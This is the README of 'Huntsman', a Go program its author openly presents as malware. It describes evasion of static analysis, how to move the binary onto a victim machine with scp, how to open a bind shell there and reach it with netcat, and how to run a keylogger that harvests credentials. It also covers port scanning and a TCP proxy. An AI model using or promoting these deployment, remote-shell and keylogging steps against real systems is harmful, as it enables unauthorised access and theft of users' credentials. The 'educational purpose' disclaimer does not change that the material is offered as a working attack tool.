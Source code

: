 [![Go Report Card](https://goreportcard.com/badge/github.com/souvikhaldar/huntsman)](https://goreportcard.com/report/github.com/souvikhaldar/huntsman)
# Huntsman
A versatile and highly concurrent malware written in Golang.  
https://souvikhaldar.github.io/huntsman/

![](huntsman-main.jpg)
*NOTE* - This software is built for educational purpose. I'm not responsible for any kind of loss/inconvienience caused to anyone using this software.
# Abstract
The term Malware is an acronym for Malicious Software, which is software that is used to harm or exploit any electronic device or network, causing chaos. 
Programming is the way of writing down thoughts and logic, in a way the computers can understand, and while writing a program there is always a scope of introducing errors and flaws or missing out on potentially dangerous scenarios. These flaws in the program are what hackers call vulnerability, and they exploit these bugs to make it behave in a way the programmer never intended. Malware is the way hackers talk to the computer to satisfy this goal. Hence, writing malware is an art to exploit the error in thinking. 
Huntsman is a malware, which was created keeping speed and efficiency in mind because at the end of the day malware is also a software, a malicious one.
Huntsman in written in a language called golang and below are the highlights of what makes it a special kind of malware:  
* Fast and concurrent: Our CPUs are not getting any faster as Moore’s law is dead, hence the way we can improve on processing is by reducing the latency introduced by I/O operations by adding more and more cache memory and using multiple CPUs instead of one. But, both these factors have a limit as to how large the cache can be and how many cores can be added. Hence software can be made faster by concurrently running pieces of a process (called thread). Golang takes care of this aspect well and hence Huntsman can be said to be an efficient concurrent software.  

* Single executable binary: Once you find a vulnerability in a system and want to exploit it using a malware, you need to reduce the time required to place the binary at the intended place. Hence having a single binary can that execute on the system is very useful as you can there is nothing else to take care of. You just place it there and start exploiting, no dependencies involved!

* Cross-platform: The target system can be of any architecture and be running any operating system, hence is it important that the malware should be capable enough to run on most of them. Hence the true cross-platform nature of golang comes into the picture as Huntsman can be compiled into almost any platform of choice and it will be ready to execute in no time.

* Versatile: Huntsman is not just one kind of malware, it is a versatile malware that can perform many kinds of malicious activity. The goal behind making huntsman versatile was that once we get access to a system, we should be able to exploit it to maximum extent and maximum possible ways. For a complete set of features refer to the feature section.

* Static analysis proof: A program written in golang is very hard to reverse engineer, and hence it is safe from static malware analysis to a large extent. Hence huntsman is hard to get caught very easily.  


# Complete guide
[1.Installation](https://github.com/souvikhaldar/huntsman#installation)   
[2.Bind Shell](https://github.com/souvikhaldar/huntsman#bind-shell)  
[3.Concurrent port scanning](https://github.com/souvikhaldar/huntsman#fast-concurrent-port-scanning)    
[4.TCP proxy](https://github.com/souvikhaldar/huntsman#run-a-tcp-proxy)   
[5.TCP Listener](https://github.com/souvikhaldar/huntsman#run-a-tcp-listener)   
[6.Keylogger](https://github.com/souvikhaldar/huntsman/blob/master/README.md#keylogger)



# Inspiration
The inspiration of this tool are primarily the following two sources:
1. Pursuing [Advanced Exercutive Program in Cyber Security and Cyber Defense](https://talentsprint.com/pages/wip/iit-kanpur/v2.5/index.html) at the esteemed [c3i](https://security.cse.iitk.ac.in/) institution of [IIT Kanpur](https://www.iitk.ac.in/) and Professor [Sandeep Shukla](https://www.cse.iitk.ac.in/users/sandeeps/), [Rohit Negi](https://www.linkedin.com/in/rohit-negi-02856227/) and [Anand Handa](https://www.linkedin.com/in/anand-handa-391a61107/), who helped take baby steps in cyber security world.  
2. The excellent book [Black Hat Go: Go Programming For Hackers and Pentesters](https://www.amazon.in/Black-Hat-Go-Programming-Pentesters-ebook/dp/B073NPY29N) by Tom Steele, Chris Patten and Dan Kottmann. 



# Path
- [x] Port scanner    
- [x] HTTP traffic analyzer
- [x] TCP proxy    
- [x] TCP listener  
- [x] HTTP server  
- [x] Reverse Shell
- [x] Keylogger  
- [ ] SMB and NTLM expotation  
- [ ] Abusing Databases  
- [ ] Packet processing  
- [ ] Fuzzing and shellcode  
- [ ] Cryptography  
- [ ] Windows system analysis  
- [ ] Steganography  
- [ ] CNC RAT  



# Complete Guide
		

# Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  

1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download the binary for you system from [RELEASES](https://github.com/souvikhaldar/huntsman/releases) and save it on on `$PATH`.  
	1. Downloading using `wget`: `wget <huntsman_xyz.tar.gz`
	2. Untar it using `tar -xf <huntsman_xyz.tar.gz`
	3. Place the `huntsman` binary executable somewhere on $PATH, eg `sudo mv huntsman /usr/local/bin`

# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice, for exploiting the victim.  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`


# Fast concurrent port scanning  
``` 
huntsman portscan --help                                                                                    SIGINT(2) ↵  5295  10:30:46
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portscan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portscan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)

```

Example:  
`huntsman portScan --target abc.com`  


# Run a TCP proxy

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`   

# Run a TCP listener

`huntsman listen --port=<port>`


# Bind Shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> bindshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc -nv <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)

# Keylogger 
A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.    
Eg. `huntsman keylogger -w localhost:8192 -l 8192`   

This video is the demonstration for using huntsman as a keylogger. [Link to youtube video](https://youtu.be/BoPICq1MVhA)
